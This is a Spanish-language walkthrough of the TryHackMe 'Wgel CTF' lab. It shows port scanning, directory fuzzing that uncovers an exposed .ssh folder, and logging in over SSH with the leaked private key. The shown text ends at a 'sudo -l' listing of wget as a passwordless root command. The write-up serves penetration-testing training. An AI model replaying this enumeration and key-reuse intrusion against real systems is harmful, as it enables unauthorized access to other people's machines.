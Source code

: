## TryHackMe  <> Wgel CTF
![image](https://github.com/Esevka/CTF/assets/139042999/5e26ad71-c251-438b-ba43-7eed13496eaf)

Enunciado Informacion : Obtener user.txt y root.txt

---
---

## Escaneo de puertos

Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido, por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# ping -c1 10.10.111.201
    PING 10.10.111.201 (10.10.111.201) 56(84) bytes of data.
    64 bytes from 10.10.111.201: icmp_seq=1 ttl=63 time=51.6 ms
    
    --- 10.10.111.201 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 51.629/51.629/51.629/0.000 ms

Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.111.201 -oN open_ports
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:47 CEST
    Initiating SYN Stealth Scan at 09:47
     [...]
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/nmap]
    └─# nmap -p 22,80 -sCV 10.10.111.201 -vvv -oN info_ports                        
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 09:50 CEST
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    [...]
    
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 94961b66801b7648682d14b59a01aaaa (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
    |   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
    |   256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
    
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


## Analisis de vulnerabilidaddes en los servicios y explotacion de los mismos.

Segun el launchpad del servicio OpenSSH 7.2p2 que esta corriento en el puerto 22 y el ttl obtenido anteriormente pordriamos decir que estamos delante de una maquina Linux.

![image](https://github.com/Esevka/CTF/assets/139042999/a445ff83-cfc4-46a8-bf4e-c9a636548566)

--Puerto 80

Cargamos la web y encontramos la pagina por defecto de Apache2 nada interesante, revisamos como siempro el codigo de la web por si acaso y encontramos lo siguiente.

![image](https://github.com/Esevka/CTF/assets/139042999/df66790e-53e7-4ecc-b807-bb7a84538ac2)

---
POSIBLE USUARIO ---> jessie
---

No vemos nada mas por lo que vamos a fuzzear la web en busca de directorios.

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/Wgel_CTF]
    └─# gobuster dir -u http://10.10.111.201 -w /usr/share/wordlists/dirb/common.txt -o fuzz
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    [...]
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /index.html           (Status: 200) [Size: 11374]
    /server-status        (Status: 403) [Size: 278]
    /sitemap              (Status: 301) [Size: 316] [--> http://10.10.111.201/sitemap/]
    
Revisamos la url encontrada pero no encontramos nada interesante que nos pueda ayudar por lo que fuzzeamos el directorio anterior en busqueda de subdirectorios

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/Wgel_CTF]
    └─# gobuster dir -u http://10.10.111.201/sitemap -w /usr/share/wordlists/dirb/common.txt -o fuzz1
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    [...]
    ===============================================================
    /.htaccess            (Status: 403) [Size: 278]
    /.hta                 (Status: 403) [Size: 278]
    /.htpasswd            (Status: 403) [Size: 278]
    /.ssh                 (Status: 301) [Size: 321] [--> http://10.10.111.201/sitemap/.ssh/]
    /css                  (Status: 301) [Size: 320] [--> http://10.10.111.201/sitemap/css/]
    /fonts                (Status: 301) [Size: 322] [--> http://10.10.111.201/sitemap/fonts/]
    /images               (Status: 301) [Size: 323] [--> http://10.10.111.201/sitemap/images/]
    /index.html           (Status: 200) [Size: 21080]
    /js                   (Status: 301) [Size: 319] [--> http://10.10.111.201/sitemap/js/]
    Progress: 4579 / 4615 (99.22%)
    ===============================================================
    2023/08/02 10:10:40 Finished
    ===============================================================

Super real, un directorio /.ssh, posiblemente como en otros casos contenga una clave privada.

![image](https://github.com/Esevka/CTF/assets/139042999/880ee7d4-567b-4ecb-bc29-a3b7d693f241)

![image](https://github.com/Esevka/CTF/assets/139042999/ed1c5a82-9a9d-4862-a422-1f37b8d70f49)


Seguramente esta clave privada sea del usuario jessie encontrado anteriormente, vamos a conectarnor con esta clave por el servicio ssh del puerto 22.

Creamos un fichero llamado id_rsa con el contenido de la llave privada encontrada y le damos permiso solo de lectura.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# echo '-----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zE
    [...]
    -----END RSA PRIVATE KEY-----' > id_rsa
    
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# chmod 400 id_rsa 

Nos conectamos al servicio ssh y obtenemos acceso a la maquina.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/Wgel_CTF/content]
    └─# ssh jessie@10.10.111.201 -i id_rsa 
    The authenticity of host '10.10.111.201 (10.10.111.201)' can't be established.
    ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
    This host key is known by the following other names/addresses:
        ~/.ssh/known_hosts:28: [hashed name]
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.111.201' (ED25519) to the list of known hosts.
    Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    8 packages can be updated.
    8 updates are security updates.
    
    jessie@CorpOne:~$ whoami;id
    jessie
    uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


## Post Explotacion Obtencion de flags y Escalada de privilegios jessie to root.

Ya que tenemos acceso a la maquina verificamos sistema y version y efectivamente es lo que suponiamos.
      
    jessie@CorpOne:~$ lsb_release -a
    No LSB modules are available.
    Distributor ID: Ubuntu
    Description:    Ubuntu 16.04.6 LTS
    Release:        16.04
    Codename:       xenial

Buscamos la flag de usuario

    jessie@CorpOne:~$ find / -name '*user*flag*' 2>/dev/null
        /home/jessie/Documents/user_flag.txt

    jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt 
        057c67131c3d5e4...cd3075b198ff6

--Elevamos Privilegios

Listamos los comandos que nos estan permitidos ejecutar como root en la maquina victima.
    
        jessie@CorpOne:~$ sudo -l
        Matching Defaults entries for jessie on CorpOne:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
        
        User jessie may run the following commands on CorpOne:
            (ALL : ALL) ALL
            (root) NOPASSWD: /usr/bin/wget







